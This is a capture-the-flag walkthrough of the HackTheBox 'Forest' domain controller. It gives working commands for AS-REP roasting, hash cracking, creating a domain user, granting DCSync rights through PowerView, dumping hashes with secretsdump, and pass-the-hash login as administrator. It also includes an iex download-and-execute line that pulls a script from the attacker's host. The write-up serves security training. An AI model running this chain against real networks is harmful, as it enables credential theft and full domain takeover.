Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.129.13.251
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-04 05:54 CDT
Nmap scan report for 10.129.13.251
Host is up (0.19s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49682/tcp open  unknown
49698/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.01 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49671,49676,49677,49682,49698 10.129.13.251
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-04 05:58 CDT
Nmap scan report for 10.129.13.251
Host is up (0.19s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-04-04 11:05:13Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49682/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-04T11:06:04
|_  start_date: 2026-04-04T10:59:59
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m51s, deviation: 4h02m32s, median: 6m49s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2026-04-04T04:06:08-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.52 seconds
```

SMB — TCP 445

Neither smbmap nor smbclient will allow me to list shares without a password:



I can try to check over RPC to enumerate users. BlackHills has a [good post on this](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/).

I’ll connect with null auth:



I can list the groups too `enumdomgroups`:



I can also look at a group for its members. For example, the Domain Admins group has one member, rid 0x1f4 and that is administrator.



FootHold / Shell

Shell as **svc-alfresco**

In Kerberoasting, typically it requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos pre-authentication” or _UF_DONT_REQUIRE_PREAUTH_ set to true. AS-REP Roasting is an attack against Kerberos for these accounts. I have a list of accounts from my RPC enumeration above. I’ll start without the SM* or HealthMailbox* accounts:



Now I can use the Impacket tool _GetNPUsers.py_ to try to get a hash for each user, and I find one for the svc-alfresco account.

svc-alfresco is a service account. Searching for alfresco online brings us to this [setup documentation](https://docs.alfresco.com/process-services/latest/config/authenticate/). According to this, the service needs Kerberos pre-authentication to be disabled. This means that we can request the encrypted TGT for this user. As the TGT contains material that is encrypted with the user’s NTLM hash, we can subject this to an offline brute-force attack, and attempt to get the password for svc-alfresco.

```sh
for user in $(cat users.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.129.13.251 htb.local/${user} | grep -v Impacket; done
```

## Step-by-Step Breakdown

### 1. Loop Through Users

for user in $(cat users.txt);

- Reads each username from `users.txt`
- Stores it in variable `$user`
### 2. Run GetNPUsers

GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}

This is the core attack:

- `GetNPUsers.py` → Script from Impacket for **AS-REP roasting**
- `-no-pass` → Try authentication **without password**
- `-dc-ip 10.10.10.161` → Domain Controller IP
- `htb/${user}` → Domain + username
###  Why This Works

In Kerberos authentication:

- Normally → user must prove identity (pre-auth)
- If **pre-auth disabled** → DC sends encrypted response anyway
- That response = **AS-REP hash**



Now we have the hash let’s crack it with john or hashcat.

```sh
john svc_alfresco_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

OR

hashcat -m 18200 svc_alfresco_hash.txt /usr/share/wordlists/rockyou.txt
```





Now let’s give these credentials to WinRM to see, If it works:

```sh
evil-winrm -i 10.129.13.251 -u svc-alfresco -p s3rvice
```



### Privilege Escalation

We checked the privileges.



Let’s use BloodHound to visualize the domain and look for privilege escalation paths.

With my shell, I’ll run Sharphound ([SharpHound v1.1.1](https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.1/SharpHound-v1.1.1.zip)) to collect data for BloodHound.

Download the .exe file from above link and then transfer it to the target.





Then started the SharpHounnd.exe



Now analyze the the .zip file inn bloodhound UI.



There’s two jumps needed to get from my current access as svc-alfresco to Adminsitrator, who is in the Domain Admins group.

Join Exchange Windows Permissions Group

Because my user is in Service Account, which is a member of Privileged IT Account, which is a member of Account Operators, it’s basically like my user is a member of Account Operators. And Account Operators has Generic All privilege on the Exchange Windows Permissions group.

Moreover, the “Exchange Windows Permissions” does have WriteDACL permission on the Domain (htb.local). It means that if we create a user and add it to the “Exchange Windows Permissions” group, we could give him DCSync access rights and dump domain controller password hashes.

Create a user on the domain:
```PS
net user unity test123 /add /domain
```

### What each part means:

**`net user`**  
This is a built-in Windows command used to **manage user accounts** (create, modify, delete).
 **`unity`**  
This is the **username** of the account you want to create.
**`test123`**  
This sets the **password** for the new user.
 **`/add`**  
This tells the system to **create a new user account**.
**`/domain`**  
This specifies that the user should be created in the **domain (Active Directory)** instead of the local machine.

```PS
net user /domain
```

### Breakdown:

**`net user`** → Used to manage or view user accounts
**`/domain`** → Tells the command to interact with the **domain controller (Active Directory)** instead of the local system



Added user "unity" to group "Exchange Windows permissions.

```PS
net group "Exchange Windows Permissions" /add unity

net group "Exchange Windows Permissions" /domain      # To verify
```



Give the user DCSync privileges. We’ll use PowerView ([PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)) for this. First download PowerView and set up a Python server in the directory it resides in:



```PS
iex(new-object net.webclient).downloadstring('http://10.10.14.140:8000/PowerView.ps1')
```



```PS
$SecPassword = ConvertTo-SecureString 'test123' -AsPlainText -Force
```

### Breakdown

#### 1. `ConvertTo-SecureString`

- This is a PowerShell cmdlet used to convert a normal string into a **SecureString**.
- A **SecureString** stores sensitive data (like passwords) in an encrypted form in memory.

#### 2. `'test123'`

- This is the plain-text password you are converting.
- Normally, passing plain-text passwords is discouraged.

#### 3. `-AsPlainText`

- Tells PowerShell: _"Yes, I know this is plain text, convert it anyway."_
- Without this flag, PowerShell expects an already encrypted string.

#### 4. `-Force`

- Required when using `-AsPlainText`.
- Basically overrides safety checks and forces the conversion.

#### 5. `$SecPassword`

- Variable that stores the resulting **SecureString** object.

```PS
$Cred = New-Object System.Management.Automation.PSCredential('htb\unity', $SecPassword)
```

## 🔍 Breakdown

### 1. `New-Object`

- A PowerShell cmdlet used to create a new instance of a .NET object.

### 2. `System.Management.Automation.PSCredential`

- This is a built-in **.NET class** used to store credentials securely.
- It holds:
- **Username**
- **Password (as SecureString)**

### 3. `'htb\unity'`

- This is the **username**.
- Format:
- `domain\username`
- Here:
- Domain → `htb`
- User → `unity`

### 4. `$SecPassword`

- This is the **SecureString password** you created earlier:

`$SecPassword = ConvertTo-SecureString 'test123' -AsPlainText -Force`

```PS
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity unity -Rights DCSync
```

# Breakdown

## 1. `Add-DomainObjectAcl`

- A function from tools like **PowerView** (part of PowerSploit).
- Used to **modify ACLs (Access Control Lists)** in Active Directory.
- Basically: _“give someone extra permissions on an AD object”_

## 2. `-Credential $Cred`

- Uses the credentials you created earlier:
- `htb\unity`
- password (`test123`)
- This means the action is performed **as that user**

## 3. `-TargetIdentity "DC=htb,DC=local"`

- This is the **target object in Active Directory**
- `DC=htb,DC=local` = **the domain itself**

 So you're modifying permissions on the **entire domain object**

## 4. `-PrincipalIdentity unity`

- The user who will receive the new permissions
- Here: `unity`

## 5. `-Rights DCSync`

- This is the critical part 

It grants **replication privileges**, specifically:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`
- (sometimes also `Replicating Directory Changes In Filtered Set`)




If everything went well, we can run “**secretsdump**” and get the NTLM hash of the user “**Administrator**“. As you know, we don’t need to crack the hash, since we can use it to do passthehash and authenticate without knowing the password.

```sh
impacket-secretsdump htb/unity:test123@10.129.13.251
```



With the NTML hash of the user “**administrator**” in our possession, we execute the following command and we will be “**nt authority\system**” and we will be able to read the root flag.

```sh
impacket-psexec administrator@10.129.13.251 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

OR

evil-winrm -i 10.129.13.251 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```






Captured root flag.




Reference links :

https://www.hackingarticles.in/forest-hackthebox-walkthrough/

https://sanaullahamankorai.medium.com/hackthebox-forest-walkthrough-2843a6386032

